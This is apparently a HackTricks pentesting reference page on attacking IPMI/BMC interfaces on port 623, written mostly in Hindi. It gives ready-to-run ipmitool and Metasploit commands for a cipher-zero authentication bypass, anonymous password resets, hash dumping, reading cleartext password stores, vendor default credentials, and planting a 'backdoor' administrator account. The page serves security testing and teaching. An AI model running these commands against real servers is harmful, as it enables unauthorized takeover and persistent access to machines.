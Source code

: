 # 623/UDP/TCP - IPMI

## 623/UDP/TCP - IPMI

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

Deepen your expertise in **Mobile Security** with 8kSec Academy. Master iOS and Android security through our self-paced courses and get certified:

{% embed url="https://academy.8ksec.io/" %}


## Basic Information

### **Overview of IPMI**

**[Intelligent Platform Management Interface (IPMI)](https://www.thomas-krenn.com/en/wiki/IPMI_Basics)** कंप्यूटर सिस्टम के दूरस्थ प्रबंधन और निगरानी के लिए एक मानकीकृत दृष्टिकोण प्रदान करता है, जो ऑपरेटिंग सिस्टम या पावर स्थिति से स्वतंत्र है। यह तकनीक सिस्टम प्रशासकों को दूरस्थ रूप से सिस्टम प्रबंधित करने की अनुमति देती है, यहां तक कि जब वे बंद या असंवेदनशील होते हैं, और यह विशेष रूप से उपयोगी है:

- प्री-ओएस बूट कॉन्फ़िगरेशन
- पावर-ऑफ प्रबंधन
- सिस्टम विफलताओं से पुनर्प्राप्ति

IPMI तापमान, वोल्टेज, फैन स्पीड और पावर सप्लाई की निगरानी करने में सक्षम है, साथ ही इन्वेंटरी जानकारी प्रदान करता है, हार्डवेयर लॉग की समीक्षा करता है, और SNMP के माध्यम से अलर्ट भेजता है। इसके संचालन के लिए एक पावर स्रोत और एक LAN कनेक्शन आवश्यक हैं।

1998 में Intel द्वारा पेश किए जाने के बाद से, IPMI को कई विक्रेताओं द्वारा समर्थित किया गया है, जो दूरस्थ प्रबंधन क्षमताओं को बढ़ाता है, विशेष रूप से संस्करण 2.0 के LAN पर सीरियल के समर्थन के साथ। मुख्य घटक शामिल हैं:

- **बेसबोर्ड प्रबंधन नियंत्रक (BMC):** IPMI संचालन के लिए मुख्य माइक्रो-कंट्रोलर।
- **संचार बसें और इंटरफेस:** आंतरिक और बाहरी संचार के लिए, जिसमें ICMB, IPMB, और स्थानीय और नेटवर्क कनेक्शनों के लिए विभिन्न इंटरफेस शामिल हैं।
- **IPMI मेमोरी:** लॉग और डेटा संग्रहीत करने के लिए।

![https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right](https://blog.rapid7.com/content/images/post-images/27966/IPMI-Block-Diagram.png#img-half-right)

**डिफ़ॉल्ट पोर्ट**: 623/UDP/TCP (यह आमतौर पर UDP पर होता है लेकिन यह TCP पर भी चल सकता है)

## Enumeration

### Discovery
```bash
nmap -n -p 623 10.0.0./24
nmap -n-sU -p 623 10.0.0./24
use  auxiliary/scanner/ipmi/ipmi_version
```
आप **संस्करण** का **पहचान** कर सकते हैं:
```bash
use auxiliary/scanner/ipmi/ipmi_version
nmap -sU --script ipmi-version -p 623 10.10.10.10
```
### IPMI Vulnerabilities

IPMI 2.0 के क्षेत्र में, Dan Farmer द्वारा एक महत्वपूर्ण सुरक्षा दोष का पता लगाया गया, जो **cipher type 0** के माध्यम से एक कमजोरी को उजागर करता है। यह कमजोरी, जिसे [Dan Farmer's research](http://fish2.com/ipmi/cipherzero.html) में विस्तार से दस्तावेजित किया गया है, किसी भी पासवर्ड के साथ अनधिकृत पहुंच की अनुमति देती है यदि एक मान्य उपयोगकर्ता को लक्षित किया जाए। यह कमजोरी HP, Dell, और Supermicro जैसे निर्माताओं के विभिन्न BMCs में पाई गई, जो सभी IPMI 2.0 कार्यान्वयन में एक व्यापक समस्या का सुझाव देती है।

### **IPMI Authentication Bypass via Cipher 0**

इस दोष का पता लगाने के लिए, निम्नलिखित Metasploit सहायक स्कैनर का उपयोग किया जा सकता है:
```bash
use auxiliary/scanner/ipmi/ipmi_cipher_zero
```
इस दोष का शोषण `ipmitool` के साथ किया जा सकता है, जैसा कि नीचे प्रदर्शित किया गया है, जो उपयोगकर्ता पासवर्ड की सूची बनाने और संशोधित करने की अनुमति देता है:
```bash
apt-get install ipmitool # Installation command
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user list # Lists users
ipmitool -I lanplus -C 0 -H 10.0.0.22 -U root -P root user set password 2 abc123 # Changes password
```
### **IPMI 2.0 RAKP प्रमाणीकरण दूरस्थ पासवर्ड हैश पुनर्प्राप्ति**

यह सुरक्षा कमी किसी भी मौजूदा उपयोगकर्ता नाम के लिए नमकीन हैश किए गए पासवर्ड (MD5 और SHA1) की पुनर्प्राप्ति की अनुमति देती है। इस सुरक्षा कमी का परीक्षण करने के लिए, Metasploit एक मॉड्यूल प्रदान करता है:
```bash
msf > use auxiliary/scanner/ipmi/ipmi_dumphashes
```
### **IPMI गुमनाम प्रमाणीकरण**

कई BMCs में एक डिफ़ॉल्ट कॉन्फ़िगरेशन "गुमनाम" पहुँच की अनुमति देता है, जिसे शून्य उपयोगकर्ता नाम और पासवर्ड स्ट्रिंग द्वारा पहचाना जाता है। इस कॉन्फ़िगरेशन का उपयोग `ipmitool` का उपयोग करके नामित उपयोगकर्ता खातों के पासवर्ड को रीसेट करने के लिए किया जा सकता है:
```bash
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user list
ipmitool -I lanplus -H 10.0.0.97 -U '' -P '' user set password 2 newpassword
```
### **Supermicro IPMI स्पष्ट-पाठ पासवर्ड**

IPMI 2.0 में एक महत्वपूर्ण डिज़ाइन विकल्प BMCs के भीतर प्रमाणीकरण उद्देश्यों के लिए स्पष्ट-पाठ पासवर्डों के भंडारण की आवश्यकता करता है। Supermicro द्वारा इन पासवर्डों को `/nv/PSBlock` या `/nv/PSStore` जैसे स्थानों में संग्रहीत करने से महत्वपूर्ण सुरक्षा चिंताएँ उत्पन्न होती हैं:
```bash
cat /nv/PSBlock
```
### **Supermicro IPMI UPnP Vulnerability**

Supermicro के IPMI फर्मवेयर में UPnP SSDP श्रोता का समावेश, विशेष रूप से UDP पोर्ट 1900 पर, एक गंभीर सुरक्षा जोखिम प्रस्तुत करता है। UPnP उपकरणों के लिए Intel SDK संस्करण 1.3.1 में कमजोरियों, जैसा कि [Rapid7 के प्रकटीकरण](https://blog.rapid7.com/2013/01/29/security-flaws-in-universal-plug-and-play-unplug-dont-play) में विस्तृत किया गया है, BMC तक रूट पहुंच की अनुमति देती हैं:
```bash
msf> use exploit/multi/upnp/libupnp_ssdp_overflow
```
### Brute Force

**HP अपने **Integrated Lights Out (iLO)** उत्पाद के लिए डिफ़ॉल्ट पासवर्ड को निर्माण के दौरान यादृच्छिक बनाता है। यह प्रथा अन्य निर्माताओं के विपरीत है, जो आमतौर पर **स्थिर डिफ़ॉल्ट क्रेडेंशियल्स** का उपयोग करते हैं। विभिन्न उत्पादों के लिए डिफ़ॉल्ट उपयोगकर्ता नाम और पासवर्ड का सारांश निम्नलिखित है:

- **HP Integrated Lights Out (iLO)** एक **फैक्टरी यादृच्छिक 8-चरित्र स्ट्रिंग** को अपने डिफ़ॉल्ट पासवर्ड के रूप में उपयोग करता है, जो उच्च सुरक्षा स्तर को दर्शाता है।
- **Dell's iDRAC, IBM's IMM**, और **Fujitsu's Integrated Remote Management Controller** जैसे उत्पाद आसानी से अनुमानित पासवर्ड का उपयोग करते हैं जैसे "calvin", "PASSW0RD" (शून्य के साथ), और "admin" क्रमशः।
- इसी तरह, **Supermicro IPMI (2.0), Oracle/Sun ILOM**, और **ASUS iKVM BMC** भी सरल डिफ़ॉल्ट क्रेडेंशियल्स का उपयोग करते हैं, जिनमें "ADMIN", "changeme", और "admin" उनके पासवर्ड के रूप में कार्य करते हैं।

## Accessing the Host via BMC

Baseboard Management Controller (BMC) तक प्रशासनिक पहुंच होस्ट के ऑपरेटिंग सिस्टम तक पहुंचने के लिए विभिन्न मार्ग खोलती है। एक सीधा दृष्टिकोण BMC के कीबोर्ड, वीडियो, माउस (KVM) कार्यक्षमता का लाभ उठाना है। यह या तो GRUB के माध्यम से रूट शेल पर होस्ट को पुनरारंभ करके (`init=/bin/sh`) या एक वर्चुअल CD-ROM से बूट करके किया जा सकता है जिसे एक बचाव डिस्क के रूप में सेट किया गया है। ऐसे तरीके होस्ट के डिस्क में सीधे हेरफेर की अनुमति देते हैं, जिसमें बैकडोर डालना, डेटा निकालना, या सुरक्षा मूल्यांकन के लिए आवश्यक कोई भी कार्रवाई शामिल है। हालाँकि, इसके लिए होस्ट को पुनरारंभ करना आवश्यक है, जो एक महत्वपूर्ण कमी है। बिना पुनरारंभ किए, चल रहे होस्ट तक पहुंचना अधिक जटिल है और होस्ट की कॉन्फ़िगरेशन के साथ भिन्न होता है। यदि होस्ट का भौतिक या अनुक्रमिक कंसोल लॉग इन रहता है, तो इसे BMC के KVM या सीरियल-ओवर-LAN (sol) कार्यक्षमताओं के माध्यम से `ipmitool` के माध्यम से आसानी से नियंत्रित किया जा सकता है। साझा हार्डवेयर संसाधनों, जैसे i2c बस और सुपर I/O चिप के शोषण की खोज एक ऐसा क्षेत्र है जिसे आगे की जांच की आवश्यकता है।

## Introducing Backdoors into BMC from the Host

BMC से लैस एक होस्ट को समझौता करने पर, **स्थानीय BMC इंटरफ़ेस का उपयोग एक बैकडोर उपयोगकर्ता खाता डालने के लिए किया जा सकता है**, जो सर्वर पर एक स्थायी उपस्थिति बनाता है। इस हमले के लिए **`ipmitool`** का समझौता किए गए होस्ट पर होना और BMC ड्राइवर समर्थन का सक्रियण आवश्यक है। निम्नलिखित कमांड दर्शाते हैं कि कैसे एक नया उपयोगकर्ता खाता होस्ट के स्थानीय इंटरफ़ेस का उपयोग करके BMC में इंजेक्ट किया जा सकता है, जो प्रमाणीकरण की आवश्यकता को बायपास करता है। यह तकनीक लिनक्स, विंडोज, BSD, और यहां तक कि DOS सहित विभिन्न ऑपरेटिंग सिस्टम पर लागू होती है।
```bash
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)

ipmitool user set name 4 backdoor
ipmitool user set password 4 backdoor
ipmitool user priv 4 4
ipmitool user list
ID  Name        Callin  Link Auth    IPMI Msg  Channel Priv Limit
2  ADMIN            true    false      false      Unknown (0x00)
3  root            true    false      false      Unknown (0x00)
4  backdoor        true    false      true      ADMINISTRATOR
```
## Shodan

* `port:623`

## References

* [https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/)


<figure><img src="/.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

अपने **मोबाइल सुरक्षा** में विशेषज्ञता को 8kSec अकादमी के साथ गहरा करें। हमारे आत्म-गति पाठ्यक्रमों के माध्यम से iOS और Android सुरक्षा में महारत हासिल करें और प्रमाणित हों:

{% embed url="https://academy.8ksec.io/" %}


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
